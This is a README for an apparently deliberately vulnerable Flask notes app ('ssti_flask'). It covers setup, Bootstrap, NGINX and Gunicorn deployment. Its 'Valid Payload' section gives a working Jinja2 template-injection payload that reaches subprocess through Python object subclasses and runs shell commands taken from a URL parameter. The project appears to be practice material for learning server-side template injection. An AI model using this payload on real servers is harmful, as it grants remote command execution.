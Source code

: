 # My Project

## Purpose
This project is a simple web application for managing notes. Users can add new notes and view a list of existing notes.

## Setup Instructions
1. Clone the repository:
   ```
   git clone https://github.com/farukerdem34/ssti_flask.git
   ```
2. Navigate to the project directory:
   ```
   cd ssti_flask
   ```
3. Install the required dependencies. If using Flask, you can do this with:
   ```
   pip install -r requirements.txt
   ```
4. Run the application:
   ```
   python3 app.py
   ```

## Using Bootstrap

### Online
To use Bootstrap online, include the following CDN links in the `<head>` section of your HTML file:

```html
<!-- Bootstrap CSS -->
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">

<!-- Bootstrap JS and dependencies -->
<script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.9.2/dist/umd/popper.min.js"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>
```

### Offline
To use Bootstrap offline, download the Bootstrap files from the official website and include them in your project directory. Follow these steps:

1. Download the Bootstrap CSS and JS files from [Bootstrap's official website](https://getbootstrap.com/).
2. Save the downloaded files in a directory within your project, for example, `static/`.
3. Include the local Bootstrap files in the `<head>` section of your HTML file:

```html
<!-- Bootstrap CSS -->
<link href="static/css/bootstrap.min.css" rel="stylesheet">

<!-- Bootstrap JS and dependencies -->
<script src="static/js/jquery-3.5.1.slim.min.js"></script>
<script src="static/js/popper.min.js"></script>
<script src="static/js/bootstrap.min.js"></script>
```

## Usage
- Open your web browser and go to `http://127.0.0.1:5000` to access the application.
- Use the form to add a new note.
- Click on a note title to view its details.



# Production

## Install NGINX

```bash
sudo apt update -y
sudo apt install nginx -y
```

## Configure NGINX
```bash
sudo vim /etc/nginx/sites-available/ssti_flask/flask.conf
```

```
server {                                                                
     listen 80;                                                               
     server_name flask.domain.com;                                                      
                                                                         
     location / {                                                             
         include proxy_params;                                                     
         proxy_pass http://unix:/var/www/ssti_flask.sock;                                           
     }                                                                   
} 
```

```bash
sudo ln -s /etc/nginx/sites-available/ssti_flask /etc/nginx/sites-enabled/
```

## Install Gunicorn
```bash
sudo apt install gunicorn -y
```

```
gunicorn app:app --bind unix:/var/www/flask_ssti.sock
```


```plain
.
├── app.py
├── compose.yml
├── database.db 
├── Dockerfile
├── README.md
├── requirements.txt
├── static
│   ├── css
│   └── js
└── templates
    ├── index.html
    ├── login.html
    ├── note.html
    └── register.html

7 directories, 56 files
```


# Valid Payload
```jinja2
{{dict.__base__.__subclasses__()[353](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip()}}
```

go to
```plaintext
http://localhost/note/<id>?cmd=whoami
```


# Docker Compose

```bash
docker compose up -d --scale web=5
```
